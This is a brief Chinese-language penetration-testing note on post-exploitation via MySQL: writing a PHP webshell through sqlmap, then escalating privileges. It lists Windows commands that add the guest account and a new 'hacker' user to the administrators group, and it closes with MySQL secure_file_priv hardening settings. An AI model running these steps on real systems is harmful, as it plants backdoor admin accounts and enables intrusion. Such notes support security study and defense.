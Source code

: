通过手动或sqlmap写入一个phpwebshell文件的system()入口，

如果system()是高权限执行shell命令，直接加用户提权。
如果system()是低权限，利用mysql漏洞的UDF提取，启动项提权等。


^
Windows加用户进行提权：
```
whoami //当前登录用户

net user //列出系统中所有账户。

将guest用户加入管理员组
net localgroup administrators guest /add

创建一个用户hacker
net user hacker 123456 /add

将hacker用户加入管理员组，有远程登录权限。
net localgroup administrators hacker /add

登录hacker账户
runas /user:hacker "tsdiscon" 
tsdiscon 命令前往登录界面登录
或远程登录hacker账户


Windows默认同时只能登录一个账号,另一个下线。
Windows Server版，支持远程桌面多用户登陆。
linux支持远程多用户登录。
```

## **防御**
关闭可写文件，修改后需要重启mysql
```
--secure-file-priv = null  //任何不可读写
--secure-file-priv =        //任何可读写
--secure-file-priv = c:\   //只有C盘可读写
在 MySQL 5.5 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径读写文件
在 MySQL 5.5 之后 secure_file_priv 默认是 NULL，这个情况下不可以读写文件
查看配置：
show variables like '%secure%';
```

